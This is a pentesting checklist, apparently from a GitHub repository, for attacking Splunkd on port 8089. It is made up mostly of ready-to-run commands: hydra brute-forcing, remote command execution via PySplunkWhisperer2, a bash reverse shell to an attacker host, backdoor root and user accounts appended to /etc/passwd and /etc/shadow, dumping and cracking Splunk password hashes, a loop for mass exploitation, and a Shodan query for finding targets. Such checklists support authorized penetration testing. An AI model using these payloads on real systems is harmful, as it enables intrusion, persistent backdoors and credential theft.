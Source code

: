 # Splunkd (Port 8089) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Splunkd (port 8089), I realistically expect to find:

- [ ] Exposed Splunk Universal Forwarder API
- [ ] Default or weak credentials (e.g., admin / changeme or easy guess)
- [ ] Ability to authenticate and send remote commands
- [ ] Potential for full remote code execution as SYSTEM/root
- [ ] Possibility to add users or maintain persistence
- [ ] No lockout mechanism, making brute-force attacks viable

---

## ✅ Splunkd Pentest Checklist

- [ ] **Banner Grabbing**
  - Confirm service and version.
    ```
    nc -vn <IP> 8089
    curl -k https://<IP>:8089
    ```

- [ ] **Nmap Scan**
  - Discover service details and enumerate.
    ```
    nmap -sV -p8089 <IP>
    ```

- [ ] **Credential Testing**
  - Attempt default or weak credentials.
    ```
    admin:changeme
    admin:admin
    admin:<known_password>
    ```

- [ ] **Brute-Forcing Credentials**
  - Brute-force the Splunkd login (no lockout).
    ```
    hydra -s 8089 -V -L users.txt -P passwords.txt https-post-form "/:user=^USER^&password=^PASS^:Invalid login"
    ```

- [ ] **Authenticated Command Execution**
  - If credentials found, use them to execute arbitrary commands via the Universal Forwarder.
    ```
    python PySplunkWhisperer2_remote.py --host <IP> --port 8089 --username admin --password "<PASSWORD>" --payload "id"
    ```
  - Example to add user:
    ```
    --payload "echo 'attacker007:x:1003:1003::/home/attacker007:/bin/bash' >> /etc/passwd"
    ```

- [ ] **Batch Exploitation**
  - Automate exploitation against many hosts.
    ```
    for i in $(cat ip_list.txt); do
      python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "<PASSWORD>" --payload "id"
    done
    ```

---

## ✅ Privilege Escalation

- [ ] **If Splunk runs as root/SYSTEM**
  - Exploit yields root/system shell.
    ```
    --payload "bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1"
    ```
  - Modify sensitive files.
    ```
    --payload "echo 'root007::0:0:root:/root:/bin/bash' >> /etc/passwd"
    ```

---

## ✅ Persistence

- [ ] **Backdoor Accounts**
  - Add new user to passwd and shadow files.
    ```
    --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd"
    --payload "echo 'attacker007:<hashed_pass>:...' >> /etc/shadow"
    ```

- [ ] **Maintain SSH Access**
  - Confirm login with created user.
    ```
    ssh attacker007@<IP>
    ```

---

## ✅ Looting Passwords

- [ ] **Dump Splunk Password File**
  - Retrieve for offline cracking.
    ```
    --payload "cat /opt/splunk/etc/passwd"
    ```
  - Crack with Hashcat.
    ```
    hashcat -m 1400 hashes.txt wordlist.txt
    ```

---

## ✅ Exploit Tools

- [ ] **PySplunkWhisperer2**
  - Exploit RCE via Universal Forwarder.
    ```
    https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
    ```

---

## ✅ Shodan Search

- Find exposed Splunkd instances.
    ```
    port:8089 Splunk
    ```

---

## ✅ References & Further Reading

- [Abusing Splunk Forwarders for RCE and Persistence](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)
- [SplunkWhisperer2 Github](https://github.com/cnotin/SplunkWhisperer2)
- [Exploit-DB 46238](https://www.exploit-db.com/exploits/46238)
- [Exploit-DB 46487](https://www.exploit-db.com/exploits/46487)
